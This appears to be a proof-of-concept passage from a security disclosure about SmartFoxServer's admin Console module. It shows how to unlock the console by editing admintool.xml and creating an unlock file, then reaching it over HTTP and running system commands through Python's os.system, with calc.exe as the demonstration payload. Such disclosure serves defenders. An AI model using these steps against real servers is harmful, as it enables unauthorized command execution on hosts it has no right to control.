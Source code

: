     $ pwd
    /config/admin
    $ vi /admintool.xml # Uncomment <module id="Console" name="Console" description="Interact with the SmartFoxServer instance via command line"/>
    $ cd .. ;pwd
    /config
    $ touch ConsoleModuleUnlock.txt


    Mac/Windows PoC:
    ----------------

    GET http://localhost:8080/admin/modules/console.html HTTP/1.1

    --------------------------------------
    ADMIN_CONSOLE, version 3.0.0
    --------------------------------------
    Type help() for assistance.

    > help()
    zm      SFSZoneManager
    sfs     SmartFoxServer
    um      SFSUserManager
    api     SFSApi
    bum     SFSBannedUserManager
    xm      SFSExtensionManager
    eng     BitSwarmEngine
    sm      DefaultSessionManager

    extras()    For more custom function calls
    shortcuts() For keyboard shortcuts details

    > eng
    com.smartfoxserver.bitswarm.core.BitSwarmEngine@3823acc4
    > extras()
    version():                Shows the Console extension version
    reloadScripts():          Reload the dynamic server scripts
    execute():                Launches the last loaded script again
    files(path):              Shows the files at the specified path
    controller(id):           Obtain one of the controllers from its id. 0=System, 1=Extension, 2=Smasher
    zones():                  List of active zones

    > version()
    2.0.1
    > files(".") # Win64
    ['config', 'data', 'extensions', 'lib', 'logs', 'sfs2x-service.exe', 'sfs2x-service.vmoptions', 'sfs2x-standalone.exe', 'sfs2x-standalone.vmoptions', 'sfs2x.bat', 'www', 'zones']
    > files(".") # MacOS
    ['zones', 'config', 'www', 'extensions', 'logs', 'lib', 'sfs2x-service.vmoptions', 'sfs2x-standalone.vmoptions', 'sfs2x.-standalone', 'data', 'sfs2x-service']
    > import os
    > os.name
    java
    > os.system("C:\\windows\\system32\\calc.exe") # Win64
    1

